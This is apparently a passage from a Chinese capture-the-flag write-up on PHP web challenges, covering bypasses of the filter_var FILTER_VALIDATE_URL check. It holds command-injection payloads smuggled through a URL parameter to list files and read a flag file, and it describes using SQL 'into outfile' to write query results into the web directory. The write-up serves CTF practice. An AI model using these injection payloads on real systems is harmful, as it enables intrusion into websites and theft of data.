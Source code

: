多加了个对`url['scheme']`的正则匹配

```
?url=httphp://127.0.0.11;echo `ls` > a.txt||1/1
?url=httphp://127.0.0.11;echo `cat fl0g.php` > a.txt||1/1
```



## 406-FILTER_VALIDATE_URL

```php
require 'config.php';
//flag in db
highlight_file(__FILE__);
$url=$_GET['url'];
if(filter_var ($url,FILTER_VALIDATE_URL)){
    $sql = "select * from links where url ='{$url}'";
    $result = $conn->query($sql);
}else{
    echo '不通过';
}
```

> **filter_var()**   (PHP 5 >= 5.2.0, PHP 7)
>
> **功能** ：使用特定的过滤器过滤一个变量
>
> **定义** ：[mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) **filter_var** ( [mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$variable` [, int `$filter` = FILTER_DEFAULT [, [mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$options` ]] )
>
> `filter_var()` 函数通过指定的过滤器过滤一个变量。
>
> 如果成功，则返回被过滤的数据。如果失败，则返回 FALSE。
>
> FILTER_VALIDATE_URL 过滤器把值作为 URL 进行验证。
>
> FILTER_FLAG_SCHEME_REQUIRED — 要求 URL 是 RFC 兼容 URL。（比如：[http://example）](http://example)/)
>
> FILTER_FLAG_HOST_REQUIRED — 要求 URL 包含主机名（[http://www.example.com）](http://www.example.com)/)
>
> FILTER_FLAG_PATH_REQUIRED — 要求 URL 在主机名后存在路径（比如：eg.com/example1/）
>
> FILTER_FLAG_QUERY_REQUIRED — 要求 URL 存在查询字符串（比如：”eg.php?age=37"）

> 可以用`http://` `file://` `test://`绕过 **filter_var** 的 **FILTER_VALIDATE_URL** 过滤器
>
> 具体参考这里：[php代码审计危险函数总结 | Wh0ale's Blog](https://wh0ale.github.io/2019/08/21/php代码审计危险函数总结/)

因为flag在数据库里，但是这里又没有输出的地方，尝试发现`into outfile`可用

把查询结果输出到网站目录下即可
